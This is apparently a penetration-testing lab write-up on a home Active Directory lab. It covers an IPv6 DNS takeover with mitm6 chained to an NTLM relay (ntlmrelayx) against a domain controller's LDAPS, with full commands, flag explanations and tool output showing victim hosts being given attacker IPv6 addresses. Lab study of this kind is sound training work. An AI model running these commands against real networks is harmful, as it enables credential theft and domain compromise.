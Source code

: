 # IPv6 DNS Takeover via mitm6

The tool `mitm6` was not installed on Kali 2025.1 by default, but could be
installed simply with `sudo apt install mitm6`.

We have to start `ntlmrelayx.py` first as follows. `-6` is used for IPv6, the
`-t`option specifies the target to relay the credentials to (IP, hostname or
URL), in this case the LDAPS protocol on our domain controller (`10.0.2.15`).
`-wh <fake WPAD name>` enables a proxy Authentication attack, using the provided
fake WPAD name. `-l <name>` specifies a loot directory name, where collected
loot is stored.

```
┌──(kali㉿kali)-[~]
└─$ ntlmrelayx.py -6 -t ldaps://10.0.2.15 -wh fakewpad.marvel.local -l lootme
/home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

When `ntlmrelayx.py` has started without error messages and waits for traffic,
we start `mitm6` in another terminal tab as follows to run the attack. The
option `-d <domain>` specifies the Windows domain name, in our case
`MARVEL.local`. We can see that IPv6 addresses are assigned to the MAC addresses
of the Windows machines (Windows cmd: `systeminfo` and `getmac`). With that we
have now becoming the man in the middle for IPv6 for these servers.

```
┌──(kali㉿kali)-[~]
└─$ sudo mitm6 -d marvel.local
Starting mitm6 using the following configuration:
Primary adapter: eth0 [08:00:27:b4:a1:05]
IPv4 address: 10.0.2.5
IPv6 address: fe80::894a:2922:b342:85c0
DNS local search domain: marvel.local
DNS allowlist: marvel.local
IPv6 address fe80::8635:1 is now assigned to mac=08:00:27:99:a3:3e host=HYDRA-DC.MARVEL.local. ipv4=
IPv6 address fe80::8635:2 is now assigned to mac=08:00:27:52:4f:78 host=SPIDERMAN.MARVEL.local. ipv4=
IPv6 address fe80::8635:3 is now assigned to mac=08:00:27:16:45:f8 host=THEPUNISHER.MARVEL.local. ipv4=
```